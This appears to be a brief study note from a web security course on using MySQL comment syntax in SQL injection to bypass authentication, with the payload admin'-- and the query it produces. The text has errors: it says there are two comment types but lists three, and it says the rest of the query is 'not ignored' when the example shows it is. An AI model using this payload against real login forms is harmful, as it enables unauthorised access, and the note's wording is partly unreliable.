 ```yaml
---
title: d-Using Comments
draft: false
tags:
---
```

Let's learn how to use comments to subvert the logic of more advanced SQL queries to bypass the authentication.

## Comments

There are two types of comments with MySQL:

- `--`
- `#`
- `/**/`

`--` needs a space after it for the comment to work. This is why payloads often looks like `-- -`.

## Auth Bypass

Let's try injecting `admin'--` as our username. Final query will look like:

```sql
SELECT * FROM logins WHERE username='admin'-- ' AND password = 'something';
```

Now the username is `admin` and the remainder of the query is not ignored.

